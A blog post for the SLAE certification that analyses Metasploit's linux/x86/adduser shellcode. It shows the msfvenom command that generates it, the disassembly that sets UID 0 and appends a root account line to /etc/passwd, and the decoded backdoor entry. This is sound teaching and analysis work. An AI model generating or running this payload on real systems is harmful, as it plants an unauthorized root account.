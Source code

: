 ```yaml
---
layout: post
title: "SLAE Problem 5.2: Msfvenom Analysis of linux/x86/adduser"
description: "Analysis of Msfvenom shellcode: linux/x86/adduser"
tags: [asm, shellcode, msfvenom]
---
```



This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

### Analysis

The next shellcode I would like to look at is linux/x86/adduser. My prediction
for this shellcode is that it essentially just runs execve with
`/usr/sbin/adduser` and the arguments that it would require. Lets analyze the
assembly to find out!

Running:

{% highlight bash %}
msfvenom --payload linux/x86/adduser --payload-options
{% endhighlight %}

We see:

{% highlight bash %}
Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create
{% endhighlight %}

The username and password both default to `metasploit` and
the shell the user will be assigned will be /bin/sh. We will
most likely find these values as arguments to execve if our
prediction is correct. Lets export the shellcode:

Running `msfvenom --payload linux/x86/adduser R > adduser.bin` we
create our shellcode to analyze. Using `ndisasm -u adduser.bin` we get
the following assembly for analysis:

### /linux/x86/adduser Shellcode ASM


{% highlight nasm %}
;; 0x46       = 70
;; syscall 70 = sys_setreuid
;; man 2 setreuid looks like the following
;; int setreuid(uid_t ruid, uid_t euid);
xor ecx,ecx
mov ebx,ecx
push byte +0x46
pop eax
int 0x80

{% endhighlight %}

As illustrated in the comments, the above chunk of assembly
sets the real and effective user id of of the process to be
0 which elevates the privileges.


{% highlight nasm %}

;; 0x5       = 5
;; syscall 5 = sys_open
push byte +0x5
pop eax

;; Clear out ecx
xor ecx,ecx
;; Push 0x00000000
;; This will null terminate our string
push ecx

;; Build up a file as a string to open
push dword 0x64777373 ;; ‘dwss’
push dword 0x61702f2f ;; ‘ap//‘
push dword 0x6374652f ;; ‘cte/‘

;; Move a pointer to our file to open into ebx
mov ebx,esp

;; Increment ecx to 0x00000001
inc ecx

;; And move 0x4 into the high byte of cx
;; making cx 0x0401 as the flags passed to the open call
mov ch,0x4
int 0x80
{% endhighlight %}

The next chunk of assembly calls open. This opens the `/etc/passwd`
file with the flags of 0x0401. What does 0x0401 stand for? Well,
looking in `/usr/include/asm-generic/fcntl.h` we see:

{% highlight bash %}
define O_WRONLY        00000001
.. snip ..
define O_APPEND        00002000
{% endhighlight %}

The values specified in this header file are defined in octal. Our assembly is
using hex so we do a bit of conversion using gdb:

{% highlight bash %}
gdb --batch --ex "print /o 0x0401"
{% endhighlight %}

This tells us that our hex value actually equals 02001 in octal of which doing
00000001 | 00002000 = 00002001 or O_WRONLY | O_APPEND. This  indicates that we
have opened the file for reading and writing and in append mode. This will
ensure that the cursor is placed at the end of the file.

The next chunk of code gets interesting. We need the memory offsets
to help us a bit:

{% highlight nasm %}
00000025  93                xchg eax,ebx
00000026  E828000000        call dword 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80

{% endhighlight %}

The xchg is our usual saving of the file descriptor
returned in eax. We then see a `call dword 0x53` and then
things start to get messy. We know about the jump call pop
technique from our SLAE course, maybe this call is leveraging
the fact that the next address will be popped on the stack. Looking
at the offsets in our disassembly and checking out the bytes from
0x53 on, we see `59 8B 51 fC 6A 04 58 CD 80`. Leveraging this
wonderful online [https://defuse.ca/online-x86-assembler.htm#disassembly2](assembler / disassembler)
we learn what those bytes represent:

{% highlight bash %}
0:  59                      pop    ecx
1:  8b 51 fc                mov    edx,DWORD PTR [ecx-0x4]
4:  6a 04                   push   0x4
6:  58                      pop    eax
7:  cd 80                   int    0x80
{% endhighlight %}

Sure enough the address of the next instruction that was placed on the stack
from our `call` instruction is popped into ecx. An offset from that value
is placed in edx which we will need to investigate a bit and then the
0x4 system call. Looking in `/usr/include/i386-linux-gnu/asm/unistd_32.h` we see
that this is `#define __NR_write 4`.

This makes sense. We just opened the /etc/passwd file and now we want to add
stuff to it. The write syscall signature looks like:

{% highlight c %}
ssize_t write(int fd, const void *buf, size_t count)
{% endhighlight %}

This means edx is the length of what is being written, ecx is the string
we want to write, ebx is the file descriptor to /etc/passwd and eax is our
write sys call number. So what would that offset from ecx equate to?
Zooming in on those bytes:

{% highlight bash %}
00000026  E828000000        call dword 0x53
0000002B  6D <--- ecx is pointing here
{% endhighlight %}

Moving backward 4 bytes from the 0x6D puts us at 0x28. This is the value
that is being used as the length of the buffer in the write syscall.

Converting 0x28 to decimal using gdb:

{% highlight bash %}
gdb --batch --ex "print /d 0x28"
$1 = 40
{% endhighlight %}

We see that 40 bytes is going to be written. Using GDB again:
_Note: 0x2B is the beginning of the gibberish, 0x28 is the 40 bytes
we just calculated._

{% highlight bash %}
gdb --batch --ex "print /x 0x2B + 0x28"
$1 = 0x53
{% endhighlight %}

We see that 0x53 is 40 bytes after our call instruction and is exactly
the byte that was referenced in the call command:

{% highlight bash %}
00000026  E828000000 call dword 0x53
{% endhighlight %}

Ok... Lets checkout the bytes of that gibberish and
see what they might translate to as ascii:

{% highlight bash %}
6D65746173706C6F69743A417A2F6449736A3470344952633A303A3A2F3A2F62696E2F73680A

Converted to ascii outputs:

metasploit:Az/dIsj4p4IRc:0::/:/bin/sh

{% endhighlight %}

Ok. That makes sense. This is the line that will be appended to the /etc/passwd
file in the format that linux would expect, e.g
`username:passwd:UID:GID:full_name:directory:shell`. The user, shell, and
presumably password all match up with the configuration that the payload
defaults to.

{% highlight nasm %}
push byte +0x1
pop eax
int 0x80
{% endhighlight %}

Finally we call exit to exit gracefully. So it turns out that my prediction was
completely inaccurate. Execve was not used to execute the `adduser` command.

¯\\_(ツ)_/¯
